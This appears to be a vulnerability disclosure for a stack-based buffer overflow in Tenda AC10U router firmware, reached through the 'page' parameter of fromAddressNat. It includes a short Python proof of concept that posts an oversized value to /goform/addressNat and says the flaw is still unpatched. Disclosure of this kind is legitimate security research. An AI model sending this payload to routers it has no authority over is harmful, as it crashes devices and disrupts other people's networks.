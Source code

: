 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the page parameter in the fromAddressNat function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "fromAddressNat" retrieves the parameter "page" using "websGetVar", the value of "page" is formatted using the sprintf function, concatenated with "%s" strings, and stored in "gotopage". This concatenation mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "gotopage".

![1705405115582](image/fromAddressNat/1705405115582.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/addressNat'
payload = {
    "page": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
